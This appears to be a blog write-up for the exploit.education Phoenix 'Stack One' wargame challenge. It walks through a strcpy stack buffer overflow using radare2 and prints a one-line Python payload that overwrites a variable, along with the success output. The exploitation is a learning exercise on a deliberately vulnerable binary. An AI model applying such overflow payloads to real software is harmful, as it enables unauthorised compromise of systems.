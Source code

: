 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 1

Write-up for: [Stack One](https://exploit.education/phoenix/stack-one/)

<!--more-->

I will omit the source code from now on. All future challenges will be approached from a black box perspective first to improve reversing skills. Also the source is available online (if exploit.education is down try wayback archive)

https://exploit.education/phoenix/stack-one/

This challenge is very similar to the previous one, it only requires a bit more precision in overflowing the buffer since a specific value is expected.

In this challenge, data is read via strcpy, using the first command line parameter as input. This call is unsafe and leads to a stack buffer overflow.

```
  strcpy(locals.buffer, argv[1]);
```

# Binary analysis

We can start off by looking at the binary using radare2:

```
radare2 stack-one
aa # analyze everything
s main
pD @ main

...
specify an argument, to be copied into the "buffer"" @ 0x804863c
...
ng_closer__changeme_is_currently_0x_08x__we_want_0x496c5962_n
...
```

Judging from these strings we can pass an argument to copy to a buffer. The is a variable called changeme which needs to be of a certain value.
Going from here, we would try to determine the length of the buffer. Various options exist: static analysis / RE, probing the binary or debugging it.

Since this is a very simple binary, let's skip the further analysis details.

The exploit:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-one `python -c 'print "A"*64 + "\x62\x59\x6c\x49"' `

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Note that the bytes in the payload are reversed to what we saw in the string due to the little-endian nature of the system.
  
